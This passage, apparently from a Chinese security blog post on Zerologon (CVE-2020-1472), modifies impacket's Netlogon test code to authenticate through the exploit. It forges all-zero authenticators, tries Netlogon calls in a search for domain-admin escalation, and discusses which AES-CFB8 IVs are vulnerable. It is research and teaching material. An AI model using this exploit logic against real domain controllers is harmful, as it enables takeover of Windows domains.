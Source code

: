 事实上，在impacket里面的`impacket/tests/SMB_RPC/test_nrpc.py`里面已经基本实现了调用的代码，我们只要小做修改，就可以调用现有的代码来做测试。

我们将认证部分，从账号密码登录替换为我们的Poc

```
def connect(self):
        if self.rpc_con == None:
            print('Performing authentication attempts...')
            for attempt in range(0, self.MAX_ATTEMPTS):
                self.rpc_con = try_zero_authenticate(self.dc_handle, self.dc_ip, self.target_computer)
                if self.rpc_con == None:
                    print('=', end='', flush=True)
                else:
                    break
        return self.rpc_con
```

将Authenticator的实现部分也替换下就行。

```
def update_authenticator(self):
        authenticator = nrpc.NETLOGON_AUTHENTICATOR()
        # authenticator['Credential'] = nrpc.ComputeNetlogonCredential(self.clientStoredCredential, self.sessionKey)
        # authenticator['Timestamp'] = 10
        authenticator['Credential'] = b'\x00' * 8
        authenticator['Timestamp'] = 0
        return authenticator
```

然后其他地方根据报错稍微修改就可以了。我们开始一个个做测试。

[![](https://p2.ssl.qhimg.com/t015024914ba832d336.png)](https://p2.ssl.qhimg.com/t015024914ba832d336.png)

这块基本是查看信息。

[![](https://p5.ssl.qhimg.com/t0126986a1f6b79db9c.png)](https://p5.ssl.qhimg.com/t0126986a1f6b79db9c.png)

虽然可以调用成功，但是对我们的利用帮助不大。

[![](https://p4.ssl.qhimg.com/t0114daef10a7063de5.png)](https://p4.ssl.qhimg.com/t0114daef10a7063de5.png)

这块基本是是建立安全通道的，设置密码已经使用了，除去认证，设置密码，还有一个查看密码。遗憾的是EncryptedNtOwfPassword是使用sesson_key 参与加密的，我们不知道sesson_key，也就无法解密。

[![](https://p5.ssl.qhimg.com/t01c33cc5fde3f4ef53.png)](https://p5.ssl.qhimg.com/t01c33cc5fde3f4ef53.png)

其他的函数整体试了下，也没有找到几个比较方便直接提升到域管权限的。大家可以自行寻觅。

事实上，dirkjanm也研究了一种无需重置密码，借助打印机漏洞relay来利用改漏洞的方法，但是由于Rlay在实战中的不方便性，整体来说并不比重置密码好用，这里不详细展开，大家可以自行查看文章[A different way of abusing Zerologon (CVE-2020-1472)](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)。

### <a class="reference-link" name="4%E3%80%81%E6%98%AF%E4%B8%8D%E6%98%AF%E5%8F%AA%E6%9C%89IV%20%E5%85%A8%E4%B8%BA%E9%9B%B6%E6%89%8D%E6%98%AF%E5%8D%B1%E9%99%A9%E7%9A%84"></a>4、是不是只有IV 全为零才是危险的

在之前的分析中，只要`参与AES运算的上一轮密文`每一轮保存不变就行，第一轮的`参与AES运算的上一轮密文`就是IV。也就是说，存在一个IV，只要他能够保持最前面8位不断移到最后，如AA(XXXXXX) -&gt; (XXXXXX)AA，值保持不变，就一定存在一个key,使得AES_CFB8(XYXYXYXY)=`IV*(len(明文)/len(IV))`(这里乘以`(len(明文)/len(IV)`是因为密文长度跟明文一样，不一定跟IV一样)。显然IV 全为零满足这个条件，但是不止是IV 全为零才有这个安全问题。
